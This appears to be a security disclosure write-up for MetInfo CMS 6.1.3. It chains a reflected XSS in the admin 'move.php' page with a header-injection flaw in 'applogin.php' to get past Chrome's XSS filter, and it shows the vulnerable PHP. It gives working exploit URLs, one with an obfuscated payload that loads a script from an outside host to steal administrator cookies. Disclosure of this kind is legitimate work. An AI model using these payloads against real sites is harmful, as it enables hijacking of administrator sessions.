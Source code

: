 # Metinfo latest version(6.1.3) has a reflected xss vul, with another vul which can cause arbitrary response headers  set we can bypass chrome xss filter.

> Metinfo is an powerful cms used widely in china.`https://www.metinfo.cn/`  recently I find two vuls and combine them we can bypass chrome's xss filter to affect administrators.

## vul1

firstly, there exists an reflected XSS in metinfo latest version(6.1.3),



url:`http://127.0.0.1:8888/admin/column/move.php?foldyanzheng=1&foldername=member&lang_columnerr4=<script>alert(document.cookie)</script>&metcms=1`

![](./alert1.png)
since no cookies protected with http-only we can directy use them.

why does this vul exists?

we check `/admin/column/move.php`

```php
<?php
# MetInfo Enterprise Content Management System 
# Copyright (C) MetInfo Co.,Ltd (http://www.metinfo.cn). All rights reserved. 
require_once '../login/login_check.php';
require_once 'global.func.php';
if($foldyanzheng){
	$metcms='';
	$folder_m=$db->get_one("SELECT * FROM $met_column WHERE foldername='$foldername' and lang='$lang'");
	if($folder_m)$metcms=$lang_columnerr4;
	if(!preg_match('/^[a-z0-9_-]+$/i',metdetrim($foldername)))$metcms=$lang_columnerr1;
	echo $metcms;
	die;
}
```

we only need `$folderyanzheng`>0  and` $folder_m` is not null, we can get `$lang_columnerr4` directly shown in the dom .and just in `/include/common.inc.php` there exists an register of variables that can be controlled by us：
```php
foreach(array('_COOKIE', '_POST', '_GET') as $_request) {
	foreach($$_request as $_key => $_value) {
		$_key{0} != '_' && $$_key = daddslashes($_value,0,0,1);
		$_M['form'][$_key] = daddslashes($_value,0,0,1);
	}
}
```

so we can controll the variable `$lang_columnerr4`.

but we know vuls like this can only affect browsers that have no xss protections. how do we affect browsers like chrome that have powerfull xss filters? see next vul. 

## vul 2

there exists an vul that enables you to set any headers in

`/include/interface/applogin.php`

```php
<?php
require_once '../common.inc.php';
$query = "UPDATE {$met_config} set value='{$apppass}' where name = 'met_apppass'";
$db->get_one($query);
header("{$serverurl}");
?>
```

in `common.inc.php` there exists an operation to register all variables which can be controlled by users;
```php
foreach(array('_COOKIE', '_POST', '_GET') as $_request) {
	foreach($$_request as $_key => $_value) {
		$_key{0} != '_' && $$_key = daddslashes($_value,0,0,1);
		$_M['form'][$_key] = daddslashes($_value,0,0,1);
	}
}
```

so here we can communicate this vul with vul1 to bypass chrome's xss filter,because chrome's xss filter donnot check  data from user's cookie. 

### Step1

Let administrator visit this address

`http://127.0.0.1:8888/include/interface/applogin.php?serverurl=Set-Cookie%3alang_columnerr4%3d123%253cimg%20src%3dasd%20onerror%3deval(String.fromCharCode(118,97,114,32,120,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,120,46,115,114,99,61,34,47,47,120,115,115,112,116,46,99,111,109,47,80,87,87,50,65,105,34,59,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,120,41,59))%3E;path=/`

we can see an responce header is set。
![](./responce_headers.png)



### step2

let the administrator visit 

`http://127.0.0.1:8888/admin/column/move.php?foldyanzheng=1&foldername=member&metcms=1`

here we can see the data in user's cookie is shown in the dom
![](./dom_loaded.png)

in my xss platform(platform to recieve xss data),we can see cookie of the manager is captured.
![](./xss_back.png)



### just wan't an alert?

first visit

`http://127.0.0.1:8888/include/interface/applogin.php?serverurl=Set-Cookie%3alang_columnerr4%3d123%253csvg/onload%3dalert(1)%3E;path=/`

secondly
`http://127.0.0.1:8888/admin/column/move.php?foldyanzheng=1&foldername=member&metcms=1`
now you can see an alert
![](./alert.png)